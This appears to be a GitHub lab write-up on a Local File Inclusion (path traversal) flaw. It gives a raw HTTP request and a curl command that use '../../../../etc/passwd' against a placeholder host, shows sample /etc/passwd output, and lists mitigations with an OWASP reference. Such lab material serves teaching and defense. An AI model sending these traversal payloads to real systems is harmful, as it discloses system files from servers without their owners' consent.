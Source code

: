 # 🛡️ Local File Inclusion – /etc/passwd Disclosure

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/)  
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/)  
[![Information Disclosure](https://img.shields.io/badge/Impact-Info_Disclosure-orange)](https://owasp.org/)  
[![LFI](https://img.shields.io/badge/Vulnerability-LFI-yellow)](https://owasp.org/)  
[![Linux](https://img.shields.io/badge/Target-Linux-lightgrey)](https://www.kernel.org/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Proof of Concept](#proof-of-concept)  
7. [Mitigation](#mitigation)  
8. [References](#references)  

---

## Overview

This lab demonstrates a **Local File Inclusion (LFI)** vulnerability in a simulated web application. By manipulating parameters, an attacker can retrieve sensitive system files such as `/etc/passwd`.  

---

## Objective

- Understand Local File Inclusion (LFI) vulnerabilities  
- Learn how improper file handling can lead to sensitive data exposure  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

Local File Inclusion occurs when a web application dynamically loads files based on **user input** without proper validation.  

In this lab:  

- The server mislabels responses (returning `/etc/passwd` with `Content-Type: image/jpeg`)  
- Attackers can request arbitrary files from the system  
- This results in the disclosure of **sensitive information** such as usernames and service accounts  

---

## Exploitation Steps

1. Intercept a vulnerable request using **Burp Suite** or browser dev tools.  
2. Manipulate the file parameter to include `/etc/passwd`. Example:  

   ```
   GET /vulnerable.php?page=../../../../etc/passwd HTTP/1.1
   Host: target.com
   ```
3. Observe the server’s response. Despite a `200 OK` and `image/jpeg` header, the body leaks system file contents.  

---

## PROOF OF EXPLOIT

```

...
```

<img width="1916" height="1079" alt="File path traversal, simple case" src="https://github.com/user-attachments/assets/751c1972-ccb9-45a8-810a-3b10887d50cf" />

---

## Proof of Concept

Using `curl` to fetch `/etc/passwd` through the vulnerable endpoint:  

```bash
curl "http://target.com/vulnerable.php?page=../../../../etc/passwd"
```

Output:  

```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:106:107:MySQL Server:/nonexistent:/bin/false
...
```

---

## Mitigation

* **Validate and sanitize user input** before using it in file operations  
* **Restrict file access** using whitelists (only allow known safe files)  
* **Use a chroot jail or containerization** to limit file system exposure  
* **Disable detailed error messages** in production environments  
* **Apply the principle of least privilege** for the web server user  

---

## References

* [OWASP: Local File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal)  
